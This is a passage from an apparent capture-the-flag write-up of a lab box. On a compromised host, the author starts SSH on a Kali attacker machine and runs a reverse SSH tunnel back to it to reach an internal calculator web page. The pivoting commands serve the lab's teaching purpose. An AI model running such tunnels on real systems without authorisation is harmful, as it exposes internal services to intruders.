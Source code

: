 On Attackers Machine I have to reset the ssh ->

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.38]
└─$ sudo systemctl enable ssh                     
Synchronizing state of ssh.service with SysV service script with /lib/systemd/systemd-sysv-install.
Executing: /lib/systemd/systemd-sysv-install enable ssh
                                                                                                                                
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.38]
└─$ sudo systemctl start ssh
```
{: .nolineno}
{: .nolineno}

On Victim Machine  lets connect the Attackers machine to victim machine →

```bash
juniordev@dev1:/tmp$ ssh kali@10.66.67.202 -R 8080:localhost:8080
The authenticity of host '10.66.67.202 (10.66.67.202)' cant be established.
ECDSA key fingerprint is SHA256:7OvWn1lnqFObProwjcZQcBd85Tb+nXCUoPJI6Q/us8Q.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.66.67.202' (ECDSA) to the list of known hosts.
kali@10.66.67.202s password: 
Linux kali 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
┌──(kali㉿kali)-[~]
└─$
```
{: .nolineno}
{: .nolineno}

I got this calculator page after loading this `localhost:8080` on web →

![Untitled](/Vulnhub-Files/img/JuniorDev/Untitled%205.png)

I refreshed the page and seen the source code →
